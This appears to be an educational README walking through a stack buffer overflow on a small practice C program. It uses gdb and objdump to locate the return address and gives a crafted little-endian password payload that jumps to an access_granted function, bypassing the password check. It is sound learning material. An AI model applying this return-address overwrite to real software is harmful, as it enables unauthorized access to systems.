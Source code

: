 **The summary**

Use of stack buffer overflow, entry into the system without a password.

**Handbook**

1) Determine the addresses of the functions

gcc +o main main.c //create an executable main: '\n'
objdump -d main    - code dissassembly

![image](https://github.com/user-attachments/assets/f5e961e8-aeea-4bd0-a0c2-01f4999685b1)

2) Select a place in the code where you can look into the stack and locate the password buffer

gdb ./main // load the executable file main for debugging
disas check_password // function dissassembly
break *0x00005555555551ac //break point "test %eax,%eax"
info breakpoints //checking breakpoints
run //starting program in gdb

![image](https://github.com/user-attachments/assets/92c43eeb-75e9-4acc-921a-6b2723b8d777)

3) Locate the register holding the return address

enter the example password "password"
when it stops at a breakpoint

info frame //current stack frame info
x/40x $rsp //memory examination
continue 
run 

enter the example password "AAAAAAAAAAAAAAAAAA" to cause a segmentation fault
when it stops at a breakpoint
x/40x $rsp //memory examination

By manipulating the number of 'A' characters and comparing the memory in the cases described, it was determined that the return address was 0x55555200.
Try overwriting it.

![image](https://github.com/user-attachments/assets/f478a511-cc5b-4a36-acb4-7748a7393f96)

4) Exploit

What we know so far: 

0x7fffffffddd6 //beginning of the buffer (41 -> 'A')
0x7fffffffddc8 //register storing the return address

0x7fffffffddc8 value is currently 0x55555200.
We'd like to inject here access_granted's address which is 0x555555555169

![image](https://github.com/user-attachments/assets/df8b4da8-cfd9-4f5c-a9f0-3bf6c7e4575c)

Looking at the memory examination, we need to pass 0x555555555169 value just after overrun of the buffer. 

0x555555555169 - 6 bytes value. 

We're operating on a little endian system so we need to perform a small operation

0x555555555169 -> 0x0000555555555169 (x86-64)
0x0000555555555169 -> \x69\x51\x55\x55\x55\x55\x00\x00 (LE)

We are preparing for the interpretation of characters and not binary form 
AAAAAAAAAAAAAAAAAA\x69\x51\x55\x55\x55\x55\x00\x00 -> AAAAAAAAAAAAAAAAAAiQUUUU

Finally, let's try to enter this fake password

![image](https://github.com/user-attachments/assets/b425eb30-2600-43f4-99b5-f75a0adbbc43)


Inspired by https://pagedout.institute/ 
Summer 2k24

